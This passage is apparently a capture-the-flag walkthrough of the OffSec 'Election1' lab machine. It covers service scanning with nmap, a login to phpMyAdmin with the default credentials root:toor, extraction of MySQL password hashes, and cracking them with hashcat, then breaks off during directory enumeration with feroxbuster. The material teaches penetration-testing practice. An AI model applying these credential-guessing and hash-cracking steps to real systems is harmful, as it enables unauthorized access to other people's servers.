





# Election1

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Play
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 20
Number of Flags: 2
Lab Description:
Leverage enumeration and web enumeration techniques to uncover system weaknesses. Apply privilege escalation strategies to 
gain elevated access. This lab is designed to harness your skills in vulnerability discovery and exploitation.
```

Machine link: [https://portal.offsec.com/machine/election1-39653/overview/details](https://portal.offsec.com/machine/election1-39653/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ export TARGET_IP=192.168.194.211

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ sudo nmap -sC -sV -p- $TARGET_IP 
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 16:16 +0100
Nmap scan report for 192.168.194.211
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.15 seconds
```

We have two TCP-services running:

- An [OpenSSH](https://en.wikipedia.org/wiki/OpenSSH) server version 7.6p1 on port 22
- An [Apache httpd](https://en.wikipedia.org/wiki/Apache_HTTP_Server) server 2.4.29 on port 80

We also do an UDP-scan of the top 100 ports.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 16:18 +0100
Nmap scan report for 192.168.194.211
Host is up (0.033s latency).
All 100 scanned ports on 192.168.194.211 are in ignored states.
Not shown: 56 closed udp ports (port-unreach), 44 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 312.19 seconds
```

But no UDP-services were found.

### Check the web site

Browsing manually to `http://192.168.194.211/` we see a default Apache2 web page:



We can also do some basic web enumeration with `nmap`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ nmap -p 80 --script "http-* and discovery" $TARGET_IP 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 16:21 +0100
Pre-scan script results:
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
Nmap scan report for 192.168.194.211
Host is up (0.033s latency).

Bug in http-security-headers: no string output.
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-mobileversion-checker: No mobile version detected.
|_http-xssed: No previously reported XSS vuln.
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-errors: 
| Spidering limited to: maxpagecount=40; withinhost=192.168.194.211
|   Found the following error pages: 
|   
|   Error Code: 404
|_      http://192.168.194.211:80/manual
|_http-feed: Couldn't find any feeds.
|_http-date: Sun, 08 Nov 2026 15:21:35 GMT; 0s from local time.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|     /icons/
|       png: 1
|   Longest directory structure:
|     Depth: 1
|     Dir: /icons/
|   Total files found (by extension):
|_    Other: 1; png: 1
| http-headers: 
|   Date: Sun, 08 Nov 2026 15:21:36 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   Last-Modified: Sun, 20 Oct 2019 15:04:12 GMT
|   ETag: "2aa6-59558e1434548"
|   Accept-Ranges: bytes
|   Content-Length: 10918
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-vhosts: 
|_128 names had status 200
| http-grep: 
|   (1) http://192.168.194.211:80/manual: 
|     (1) ip: 
|_      + 192.168.194.211
| http-traceroute: 
|_  Possible reverse proxy detected.
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.194.211
| 
|     Path: http://192.168.194.211:80/
|     Line number: 201
|     Comment: 
|         <!--      <div class="table_of_contents floating_element">
|                 <div class="section_header section_header_grey">
|                   TABLE OF CONTENTS
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#about">About</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#changes">Changes</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#scope">Scope</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#files">Config files</a>
|                 </div>
|               </div>
|         -->
| 
|     Path: http://192.168.194.211:80/
|     Line number: 4
|     Comment: 
|         <!--
|             Modified from the Debian original for Ubuntu
|             Last updated: 2016-11-16
|             See: https://launchpad.net/bugs/1288690
|_          -->
|_http-chrono: Request times for /; avg: 111.02ms; min: 68.81ms; max: 154.91ms
| http-enum: 
|   /robots.txt: Robots file
|   /phpinfo.php: Possible information file
|_  /phpmyadmin/: phpMyAdmin

Nmap done: 1 IP address (1 host up) scanned in 171.68 seconds
```

The most interesting findings here is the `/robots.txt` file

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ curl http://$TARGET_IP/robots.txt 
admin
wordpress
user
election
```

and the phpMyAdmin page (`http://192.168.194.211/phpmyadmin/`):


Checking the entries in `robots.txt` we find this election site on (`http://192.168.194.211/election/`):


### Login at the phpMyAdmin site

Next, we try to login with [common passwords and users](https://cajac.gitbook.io/ctf-notes/creds/online-attacks/common-passwords-and-users) on the phpMyAdmin site.

We are successful with the credentials `root:toor`:



We can issue SQL-queries under the `SQL` section and do database enumeration.

In the `mysql` database and the `user` table we find two hashes:



### Try to crack the hashes

We will try to crack the hashes with `hashcat` and the Rockyou wordlist.

First we search for the correct hash type:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ hashcat -hh | grep -i mysql
   7401 | MySQL $A$ (sha256crypt)                                    | Database Server
  11200 | MySQL CRAM (SHA1)                                          | Database Server
    200 | MySQL323                                                   | Database Server
    300 | MySQL4.1/MySQL5                                            | Database Server
```

After some checking `-m 300` seems the most likely one.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ hashcat -m 300 --example-hash
hashcat (v7.1.2) starting in hash-info mode

Hash Info:
==========

Hash mode #300
  Name................: MySQL4.1/MySQL5
  Category............: Database Server
  Slow.Hash...........: No
  Deprecated..........: No
  Deprecated.Notice...: N/A
  Password.Type.......: plain
  Password.Len.Min....: 0
  Password.Len.Max....: 256
  Kernel.Type(s)......: pure, optimized
  Example.Hash.Format.: plain
  Example.Hash........: fcf7c1b8749cf99d88e5f34271d636178fb5d130
  Example.Pass........: hashcat
  Benchmark.Mask......: ?a?a?a?a?a?a?a
  Autodetect.Enabled..: Yes
  Self.Test.Enabled...: Yes
  Potfile.Enabled.....: Yes
  Keep.Guessing.......: No
  Custom.Plugin.......: No
  Plaintext.Encoding..: ASCII, HEX
```

And we start cracking.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ hashcat -m 300 '9CFBBC772F3F6C106020035386DA5BBBF1249A11' /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #01: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2945/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (3813 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 300 (MySQL4.1/MySQL5)
Hash.Target......: 9cfbbc772f3f6c106020035386da5bbbf1249a11
Time.Started.....: Sun Nov  8 18:51:54 2026 (6 secs)
Time.Estimated...: Sun Nov  8 18:52:00 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2795.0 kH/s (0.78ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...:  kristenanne -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Util: 36%

Started: Sun Nov  8 18:51:33 2026
Stopped: Sun Nov  8 18:52:01 2026
                                                                                                                                                                                         
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ hashcat -m 300 '2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19' /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #01: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2945/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (4052 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

2470c0c06dee42fd1618bb99005adca2ec9d1e19:password         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 300 (MySQL4.1/MySQL5)
Hash.Target......: 2470c0c06dee42fd1618bb99005adca2ec9d1e19
Time.Started.....: Sun Nov  8 18:52:35 2026 (0 secs)
Time.Estimated...: Sun Nov  8 18:52:35 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2462.8 kH/s (0.82ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> whitetiger
Hardware.Mon.#01.: Util: 14%

Started: Sun Nov  8 18:52:34 2026
Stopped: Sun Nov  8 18:52:37 2026
```

This confirms the hash type and we get the credentials `newuser:password`.  
That doesn't seem too useful though!

### Further web scanning

We continue searching for additional files and directories with `feroxbuster` under the `/election` directory.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Intermediate/Election1]
└─$ feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -C 404 -x html,php,txt -u http://$TARGET_IP/election/

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.194.211/election/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [html, php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      280c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       24l       75w      698c http://192.168.194.211/election/js/tripath.localization.js
200      GET       66l      131w     1790c http://192.168.194.211/election/themes/shards/js/eLection.js
200      GET       19l      132w     8750c http://192.168.194.211/election/themes/shards/img/eLection-logo.png
200      GET       25l      167w     7866c http://192.168.194.211/election/favicon.png
200      GET      476l     1078w     9412c http://192.168.194.211/election/themes/shards/css/shards.tripath.css
200      GET       22l      149w     8055c http://192.168.194.211/election/themes/shards/img/tripath-logo.png
200      GET        5l      347w    19038c http://192.168.194.211/election/themes/shards/js/popper.min.js
200      GET      404l     1175w    16827c http://192.168.194.211/election/themes/shards/js/bootstrap-notify.js
200      GET      172l      469w     7003c http://192.168.194.211/election/index.php
200      GET        1l        1w      775c http://192.168.194.211/election/themes/shards/css/reset.min.css
200      GET        6l      590w    51150c http://192.168.194.211/election/themes/shards/js/bootstrap.min.js
200      GET        4l     1298w    86663c http://192.168.194.211/election/themes/shards/js/jquery-3.2.1.min.js
200      GET        2l     1733w    77789c http://192.168.194.211/election/themes/shards/css/shards.min.css
301      GET        9l       28w      327c http://192.168.194.211/election/media => http://192.168.194.211/election/media/
200      GET       24l      233w    12280c http://192.168.194.211/election/media/user.png
200      GET       26l      109w    10366c http://192.168.194.211/election/media/backgrounds/codename-logo.png
301      GET        9l       28w      328c http://192.168.194.211/election/themes => http://192.168.194.211/election/themes/
200      GET     1620l     8202w   740155c http://192.168.194.211/election/media/backgrounds/codename.jpg
301      GET        9l       28w      326c http://192.168.194.211/election/data => http://192.168.194.211/election/data/
301      GET        9l       28w      327c http://192.168.194.211/election/admin => http://192.168.194.211/election/admin/
200      GET        1l       94w     8137c http://192.168.194.211/election/admin/js/material.min.js
200      GET      117l      442w     3121c http://192.168.194.211/election/admin/js/jquery.cookie.js
200      GET      146l      231w     3610c http://192.168.194.211/election/admin/js/index.js
200      GET      264l      636w     7704c http://192.168.194.211/election/admin/js/material-dashboard.js
200      GET      404l     1175w    16827c http://192.168.194.211/election/admin/js/bootstrap-notify.js
200      GET        8l      217w    15226c http://192.168.194.211/election/admin/js/jquery.uploadfile.min.js
200      GET        7l      432w    37045c http://192.168.194.211/election/admin/js/bootstrap.min.js
200      GET     1296l     2318w    39746c http://192.168.194.211/election/admin/js/material-tripath.js
200      GET        4l     1298w    86659c http://192.168.194.211/election/admin/js/jquery-3.2.1.min.js
200      GET        6l     1429w   121200c http://192.168.194.211/election/admin/css/bootstrap.min.css
200      GET     6780l    14744w   165243c http://192.168.194.211/election/admin/css/material-dashboard.css
200      GET      117l      442w     3121c http://192.168.194.211/election/themes/shards/js/jquery.cookie.js
200      GET     1579l     2856w    23848c http://192.168.194.211/election/themes/shards/css/animate.css
200      GET        4l       66w    31004c http://192.168.194.211/election/themes/shards/css/font-awesome.min.css
200      GET        7l     1258w   124970c http://192.168.194.211/election/themes/shards/css/bootstrap.min.css
200      GET      172l      469w     7003c http://192.168.194.211/election/
301      GET        9l       28w      325c http://192.168.194.211/election/lib => http://192.168.194.211/election/lib/
200      GET        0l        0w        0c http://192.168.194.211/election/lib/homeAPI.php
500      GET        7l       12w      151c http://192.168.194.211/election/themes/shards/home.php
200      GET        1l     1053w    56453c http://192.168.194.211/election/themes/shards/js/shards.min.js
200      GET       23l       46w      531c http://192.168.194.211/election/admin/css/material-icons/material-icons.css
301      GET        9l       28w      331c http://192.168.194.211/election/admin/img => http://192.168.194.211/election/admin/img/
200      GET       10l       95w     5091c http://192.168.194.211/election/admin/js/arrive.min.js
200      GET      106l      236w     2223c http://192.168.194.211/election/admin/css/tripath-tiles.css
301      GET        9l       28w      331c http://192.168.194.211/election/languages => http://192.168.194.211/election/languages/
200      GET        2l      301w    25332c http://192.168.194.211/election/admin/js/perfect-scrollbar.jquery.min.js
200      GET      637l     1417w    13647c http://192.168.194.211/election/admin/css/material-tripath.css
200      GET      129l      805w     8964c http://192.168.194.211/election/admin/index.php
301      GET        9l       28w      324c http://192.168.194.211/election/js => http://192.168.194.211/election/js/
200      GET        1l        1w        4c http://192.168.194.211/election/languages/localize.php
200      GET      259l     1244w   105253c http://192.168.194.211/election/admin/img/sidebar-2.jpg
200      GET       44l      211w     1986c http://192.168.194.211/election/languages/en-us/loc_main.tp
200      GET        9l       20w      246c http://192.168.194.211/election/languages/en-us/info.tp
200      GET       80l      429w     4390c http://192.168.194.211/election/languages/en-us/loc_ajax.tp
301      GET        9l       28w      335c http://192.168.194.211/election/admin/plugins => http://192.168.194.211/election/admin/plugins/
200      GET      415l     2250w   179691c http://192.168.194.211/election/admin/img/sidebar-1.jpg
301      GET        9l       28w      331c http://192.168.194.211/election/admin/css => http://192.168.194.211/election/admin/css/
200      GET       13l       22w      415c http://192.168.194.211/election/admin/js/tripath-form-control.js
200      GET       50l       98w     1708c http://192.168.194.211/election/admin/js/tripath-tiles.js
200      GET        5l       43w     1268c http://192.168.194.211/election/admin/js/jquery.animatecss.min.js
200      GET        0l        0w        0c http://192.168.194.211/election/admin/plugins/Zebra_Image/Zebra_Image.php
500      GET        4l       10w      201c http://192.168.194.211/election/admin/plugins/excel-importer/addons.php
200      GET        0l        0w        0c http://192.168.194.211/election/admin/plugins/excel-importer/executor.php
200      GET        6l       75w     5170c http://192.168.194.211/election/admin/js/jquery.flip.min.js
200      GET       94l      232w     3040c http://192.168.194.211/election/admin/js/tripath-json.js
200      GET      255l      885w     9949c http://192.168.194.211/election/admin/js/jquery.print.js
200      GET        9l      519w    36026c http://192.168.194.211/election/admin/js/chartist.min.js
200      GET     1277l     4695w    43892c http://192.168.194.211/election/admin/js/jquery.form.js
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_siswa.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_guru.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_relate.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_pengaturan.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_akun.php
200      GET        1l        5w       47c http://192.168.194.211/election/admin/ajax/op_updater.php
200      GET        1l        2w       15c http://192.168.194.211/election/admin/ajax/op_akun_foto.php
200      GET      483l     2446w   185317c http://192.168.194.211/election/admin/img/sidebar-4.jpg
200      GET      345l     2225w   204291c http://192.168.194.211/election/admin/img/sidebar-3.jpg
500      GET       10l       26w      358c http://192.168.194.211/election/themes/shards/election.php
200      GET        5l       15w      116c http://192.168.194.211/election/themes/shards/info.tp
200      GET      192l      449w     3648c http://192.168.194.211/election/admin/css/style.css
200      GET       42l       75w      854c http://192.168.194.211/election/languages/en-us/loc_functions.tp
200      GET       35l      201w     2186c http://192.168.194.211/election/languages/en-us/loc_plugin_excel_importer.tp
200      GET      233l      855w     9968c http://192.168.194.211/election/languages/en-us/loc_admin.tp
200      GET        1l        5w       22c http://192.168.194.211/election/admin/live.php
200      GET       24l       47w      660c http://192.168.194.211/election/admin/js/tripath-continous-insert.js
200      GET        0l        0w        0c http://192.168.194.211/election/admin/plugins/excel-importer/SpreadsheetReader.php
200      GET     1579l     2856w    23848c http://192.168.194.211/election/admin/css/animate.css
